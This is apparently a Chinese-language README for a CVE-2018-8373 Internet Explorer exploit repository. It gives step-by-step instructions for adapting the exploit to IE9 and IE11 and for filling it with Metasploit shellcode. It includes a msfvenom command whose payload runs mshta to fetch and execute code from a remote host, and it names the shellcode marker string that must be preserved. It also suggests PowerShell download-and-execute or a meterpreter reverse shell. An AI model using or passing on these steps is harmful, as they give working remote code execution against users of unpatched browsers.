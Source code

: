 #CVE-2018-8373 REC


`怎样修改Exploit`
    
    BeforeIE9是可以对IE9之前的版本进行利用，但是在有些X64位机器上不行
    
    BeforeIE11是比较好用的，可以针对IE11之前的版本进行利用
    
    IE11 修改与CVE-2018-8174修改差不多  在165行左右 填充msf生成的payload即可

`怎样使用`
    
    IE9可以直接执行命令 调用Powershell下载执行即可
    
    IE11可以使用msf的powershell meterpreter模块反弹 也可以将下载命令使用msf编码执行

`复现注意事项`
    
    我的知乎专栏 MSF文章
    https://zhuanlan.zhihu.com/p/40091321
    生成 执行命令的payload 这个位置生成的payload是用来填充的
    msfvenom -p windows/exec cmd='mshta http://192.168.0.100:6666/hFmjv' -f js_le exitfunc=thread 
    
    填充payload的时候要注意，与8174有一点不同
    
    就是不是全填充而是在 原来的地方要修改  具体看修改  
    
    要保留如下字符串 然后在这个字符串之前填充  不然是无法复现成功的
   
    %u4100%u0065%u0000%u0000%u0000%u0000%u0000%ucc00%ucccc%ucccc%ucccc%ucccc
    
    我从官网即时下载的IE11也存在问题，所以危害还是很大的。。
    
    
##最后感谢看雪大佬提供的EXP。

